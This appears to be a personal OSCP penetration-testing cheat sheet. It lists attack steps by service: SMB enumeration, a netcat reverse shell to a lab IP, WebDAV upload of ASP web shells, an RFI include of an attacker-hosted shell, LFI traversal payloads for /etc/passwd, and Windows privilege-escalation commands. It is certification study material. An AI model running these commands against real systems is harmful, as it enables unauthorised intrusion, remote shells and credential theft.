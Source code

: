 # OSCP Services and Things-To-Try

## Services

__SSH (22)__
* Fingerprint server/OS, SSH key
* Basic auth-bypass (user=Patrick pass=Patrick) => Privesc `$ sudo su` + `$ su root`

__HTTP (80|8080)__
* Curl for HTTP header

__Telnet (23)__
* Stuff

__SMTP (25)__
* Stuff

__SMB / NETBIOS / SMBD (135-139 - 445)__

SMB enumeration
```bash
$ nmblookup -A target
$ smbclient //MOUNT/share -I target -N
$ rpcclient -U "" target
$ enum4linux target        // enum info from Windows and Samba hosts 

# Find named pipes
`msfconsole> use auxiliary/scanner/smb/pipe_auditor`
```

Accessing shared dirs: `smbclient \\\\10.11.1.75\\Users`
* `smb:\> put src_file remote_file`
* `smb:\> get remote_file`
* Put nc.exe => reverse shell
* Get password files => access via. ssh/ rdp

MS17-010 Code Exec
* `PsExec64.exe \\10.11.1.49 -u Alice -p aliceishere ipconfig` (see more cmds: https://ss64.com/nt/psexec.html)
* `runas`
* `nc.exe 10.11.0.42 443 -e cmd.exe`
* Add new admin account: https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit

Privesc
* Mount shared drives: `net use z: \\10.11.1.49\Users /user:alice aliceishere`

Exploits:
* [MS08-067] NetAPI module in Windows SMB
* [MS17_010] Eternal blue detection: `use auxiliary/scanner/smb/smb_ms17_010`
* [MS17-010 ALTERNATIVE METHOD]: Adding new admin account https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit

__SMBD / SAMBA (139)__
* SMBD/Sambda is a server to provide SMB service to clients
* Samba 2.2.x remote buffer overflow: https://www.exploit-db.com/exploits/7

__MSRPC (135)__
* Stuff

## Web

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers
* https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/
* ColdFusion LFI: http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

WEBDAV vulns - using tools . 
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp  
http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html  
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```

Apache
* Log paths: https://wiki.apache.org/httpd/DistrosDefaultLayout

LFI / RFI
(LFI = HIGH CHANCE OF RFI, SO TRY TO INCLUDE HTTP://ATTACKER/RSHELL.PHP)
```
# Append NULL bytes (prevent .ext concat to the end by application)
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=../../../etc/passwd%en
http://example.com/index.php?page=../../../etc/passwd%00%en
```

PHP
* Check `phpinfo()`
* RFI: If reverse-shell doesn't work, include `<?php phpinfo();?>` to check for banned functions

## Privesc - LINUX

UDEV
* Guide: http://www.madirish.net/370
* Exploit Code: https://www.exploit-db.com/exploits/8478

## Privesc - WINDOWS

Accesschk.exe:
* http://www.fuzzysecurity.com/tutorials/16.html
```
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

Psexec.exe:
* https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15

Net Use:
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15


## Reverse Shell Tips

Reverse shell cheatsheet: http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).


## Metasploit

Msfvenom commands:
* https://netsec.ws/?p=331




